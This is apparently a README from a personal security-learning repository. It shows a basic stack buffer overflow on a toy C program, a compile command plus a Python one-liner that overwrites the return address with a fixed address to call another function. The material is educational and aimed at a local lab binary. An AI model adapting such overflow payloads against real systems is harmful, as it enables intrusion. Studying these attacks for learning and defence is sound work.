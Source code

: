 # Security in C code

This is a self training/blog for my own learning process of security. Do not
expect expert content since I am NOT a security expert. Feel free to rise bugs
if something is wrong or you would like to explore other security attacks.
Feedback more than welcome.

## Buffer Overflow Exploit Example

This example simply exploit the buffer by smashing the stack and modifying the
return address of the function. This will be used to call some other function.
It is based on this good
[tutorial](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/) 


```
    $ gcc vuln.c -o vuln -m32 -O0
    $ python2 -c 'print "a"*32 + "\xb2\x84\x04\x08"' | ./vuln
```


